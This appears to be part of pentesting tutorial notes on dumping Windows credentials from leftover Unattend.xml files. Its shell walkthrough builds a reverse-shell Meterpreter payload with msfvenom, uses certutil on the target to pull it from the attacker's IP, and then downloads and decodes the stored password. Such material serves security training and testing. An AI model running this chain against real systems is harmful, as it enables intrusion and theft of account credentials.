 <br>

## 4. Windows Credential Dumping

### 4.1. Searching For Password in Windows Configuration Files

If the **Unattended Windows Setup** configuration files are left on the target system after installation, they can reveal user account credentials that can be  used by attackers to authenticate with Windows target legitimately.

The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
- C:\Windows\Panther\Unattend.xml
- C:\ Windows\Panther\Autounattend.xml

```shell
# STEP 1: Generate a malicious payload using msfvenom. This payload will establish a reverse connection from the target machine back to the attacker's machine.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local_IP> LPORT=<port_number> -f exe > payload.exe
ls
file payload.exe

# STEP 2: Set up a simple HTTP server to host the payload. This allows the target system to download the payload from your machine. This command will host a web server on port 80 using Python.
python -m SimpleHTTPServer 80

# STEP 3: Download the payload on the target machine. On the target machine, open Command Prompt and navigate to the Desktop.
cd <desktop>

# Use certutil (a legitimate Windows utility) to download the payload from the attacker's HTTP server.
certutil -urlcache -f http://<kali_IP>/payload.exe payload.exe
# The payload is now on the target machine, ready for execution.

# STEP 4: Prepare the Metasploit multi-handler to receive the reverse connection. Stop the web server and set up Metasploit.
service postgresql start && msfconsole

# Configure the multi-handler to listen for the reverse shell connection.
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST <my_IP>
run  # Starts listening for incoming connections.

# STEP 5: Once the target runs the payload, a Meterpreter session will open.
sysinfo

# STEP 6: Search for sensitive configuration files on the target.
search -f Unattend.xml  # This search might take some time depending on the system size.
# cd C:\\Windows\\Panther

# STEP 7: Navigate to the directory where 'Unattend.xml' is usually stored and download the configuration file containing potential credentials.
download unattend.xml

# STEP 8: Extract and analyze potential plaintext credentials. View the contents of the file to locate sensitive information such as AutoLogon passwords.
cat unattend.xml
# Paste the Base64-encoded password found in the file into a new text file for decoding.
vim password.txt  # Save the encoded password. (:wq)
```